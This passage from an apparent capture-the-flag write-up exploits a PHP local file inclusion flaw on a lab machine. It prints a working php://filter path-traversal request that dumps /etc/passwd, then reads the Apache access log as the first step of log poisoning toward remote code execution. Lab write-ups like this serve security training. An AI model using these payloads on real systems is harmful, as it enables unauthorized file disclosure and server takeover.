 ```php
        ?>
    </div>
</body>

</html>
```

If you don’t know php, here is what it basically does:<br/>It checks if there is a “ext” parameter in the URL. If there is not, it uses a .php extension and else it uses whatever it was given in the URL. Then of course it includes whatever file is specified in the view parameter, with the given extension.

With this knowledge we can things like this:

```bash
http://10.10.39.107/?view=php://filter/resource=./dog/../../../../../../../etc/passwd&amp;ext=
```

To extraxt the linux password file:

```plain
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```

Sadly we can not find any passwords or anything else interesting here, so we have to dig deeper.

The next thing we should try is log poisining. We are really just injecting a pice of php code into the log, to get remote code execution. Let’s first check where the log is. From our nmap scan we know that it is an apache2 server. So just try all the default locations. This is where I found it:

```bash
http://$IP/?view=php://filter/resource=./dog/../../../../../../../var/log/apache2/access.log&ext=
```

This is a snippet of the log:

```plain
{YOUR_IP} - - [10/Jul/2020:10:27:35 +0000] "GET /cats/4.jpg HTTP/1.1" 200 17994 "http://$IP/?view=cat" "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0"
```
